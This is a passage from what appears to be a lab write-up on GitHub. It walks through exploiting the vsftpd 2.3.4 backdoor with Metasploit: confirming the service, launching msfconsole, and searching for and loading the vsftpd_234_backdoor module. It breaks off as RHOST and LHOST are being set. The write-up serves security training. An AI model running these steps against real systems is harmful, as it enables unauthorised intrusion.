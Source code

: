 The result confirmed the presence of the vulnerable FTP service:

  ```21/tcp open  ftp     vsftpd 2.3.4```

This verification step ensures the correct service is targeted before launching an exploit as shown below: 

![Screenshot On Confirming The vsftpd 2.3.4 Service](images/confirmvsftpdService.png)
*Screenshot on confirming the presence of vsftpd 2.3.4 service via Kali terminal.*

---

#### 5.2 ✅ Launch Metaspoilt Framework

After confirming that vsftpd 2.3.4 service is running, I launched the Metaspoit Framework on Kali Linux. This was done by executing the following command in Kali terminal: 

```
msfconsole
```

![Launching Metaspoilt Framework Screenshot](images/launchMetaspoilt.png)
![Launching Metaspoilt Framework Screenshot](images/launchMetaspoilt2.png)
*Visual representation of the command `msfconsole` execution and the successful launch of the Metasploit console.*

---

#### 5.3 ✅ Searching for the Vulnerability Exploit

After launching Metasploit Framework, I proceeded to search for a known exploit associated with the vulnerable service vsftpd 2.3.4. This was achieved running:

```
search vsftpd 2.3.4
```

![Screenshot On Searching For The vsftpd exploit](images/searchExploit.png)
*Screenshot highlighting the available exploit module for the specified service (vsftpd 2.3.4).*

---

#### 5.4 ✅ Selecting the Exploit Module

From the search results, I identified and selected the appropriate exploit module for vsftpd 2.3.4, which is ```exploit/unix/ftp vsftpd_234_backdoor```

To use the module, following command was executed:

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

This command loads the exploit into the console as shown in the screenshot below, for further configuration and execution:

![Screenshot On Loading The vsftpd exploit Into The Metaspoilt Console](images/useVSFTPD.png)
*Screenshot on loading the vsftpd exploit into Metaspoilt console.*

---

#### 5.5 ✅ Configuring the Target (RHOST) and Local Host (LHOST)

With the exploit module loaded, I configured the necessary parameters to define the target machine and my local machine for handling the reverse connection, by running:
```